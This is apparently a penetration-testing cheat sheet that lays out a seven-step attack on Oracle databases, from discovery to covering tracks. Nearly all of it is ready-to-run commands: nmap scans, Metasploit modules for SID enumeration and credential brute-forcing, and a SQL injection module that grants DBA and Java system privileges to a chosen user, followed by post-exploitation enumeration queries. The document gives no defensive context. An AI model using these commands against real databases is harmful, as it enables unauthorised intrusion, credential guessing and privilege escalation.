 Oracle


1. Locate a system running Oracle.
2. Determine Oracle version.
3. Determine Oracle SID.
4. Guess/Bruteforce USERNAME/PASS.
5. Privilege escalation via SQL injection.
6. Manipulate data/post exploitation.
7. Cover tracks.
------------------------------------------------------------------------------------------------------

1. nmap -Pn -n -T4 --open -p1521 <target IP>

2. Example 1
     msf > use auxiliary/scanner/oracle/tnslsnr_version
     db_notes

   Example 2
     tnscmd10g version -h <target IP>
     tnscmd10g status -h <target IP>
     Look for the version, LOGFILE, TRACING and PORT.

3. Example 1
     msf > use auxiliary/scanner/oracle/sid_enum
     msf > use auxiliary/admin/oracle/sid_brute

   Example 2
     sidguess -i <target IP> -d /usr/share/metasploit-framework/data/wordlists/sid.txt

   Example 3
     http://<target IP>:8080/oradb/PUBLIC/GLOBAL_NAME

4. Example 1
     msf > use auxiliary/admin/oracle/login_brute
     set SID <sid>

   Example 2
     sqlplus <username>/<password>@<target IP>:<port>/<SID>

5. msf > use auxiliary/admin/oracle/sql
   set DBUSER <user>
   set DBPASS <password>
   set SID <sid>
   set SQL select * from user_role_privs

   msf > use auxiliary/admin/oracle/pushin/lt_findricset_cursor
   set DBUSER <user>
   set DBPASS <password>
   set SID <sid>
   set SQL GRANT DBA TO <user>
   set SQL GRANT JAVASYSPRIV TO <user>

6. select * from v$version;                  -- Oracle version
   select * from dba_registry_history;       -- Oracle patch level
   select * from all_users;                  -- usernames
   select owner,table_name from all_tables;  -- tables
   select * from session_roles;              -- session roles
   desc utl_http                             -- describes database objects


http://www.youtube.com/watch?v=SVvAvmjT7V4#t=1535
